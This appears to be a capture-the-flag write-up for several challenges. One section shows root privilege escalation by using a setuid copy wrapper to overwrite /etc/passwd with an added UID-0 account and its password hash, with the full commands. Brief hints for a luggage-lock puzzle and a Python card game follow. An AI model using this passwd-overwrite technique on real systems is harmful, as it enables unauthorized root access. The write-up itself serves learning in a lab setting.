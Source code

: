 ```
/usr/bin/passwd
/usr/bin/simplecopy
```

`/usr/bin/simplecopy` jumps out at me, since the other binaries are standard Linux utilities.

It appears that `simplecopy` is a simple wrapper for `cp`, but it runs as root. With that knowledge, we effectively have write permissions on any file on the system.

I crafted a custom passwd file with the following line at the end of it:
```
root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash
```

Using simplecopy we can overrwrite the original passwd file:
```
elf@567abb6ead5b:~$ /usr/bin/simplecopy mypasswd /etc/passwd
```

And switch to the new root2 user:
```
elf@567abb6ead5b:~$ su root2
Password: 
root@567abb6ead5b:/home/elf# 
```

From there, you only need to run `/root/runmetoanswer`.



# Luggage Lock
## Hint
[Lock talk](https://www.youtube.com/watch?v=ycM1hBSEyog)

Talk notes:
* Position the notches, then use that as a starting combination
* Rotate the number combos left each by 1, you will unlock it within 9 tries (i.e., 6 - 3 - 1, to 5 - 2 - 0, to 4 - 1 - 9)
* To solve the challenge:
  * Put little pressure, not too much, not too little on the button/keyhole
  * Spun tumblers until you encounter resistance
  * Then, push the button all the way to open the luggage
## Objective
Get back into the luggage by finding the correct position for all four dials.
## Progress
Just opened each lock according to the technique described in the talk.


# Na’an
## Hint
* The Upper Hand: Shifty said his deck of cards is made with Python. There is a weakness in his game which will let you win.
* Stump the Chump: Try to outsmart Shifty by sending him an error he may not understand.
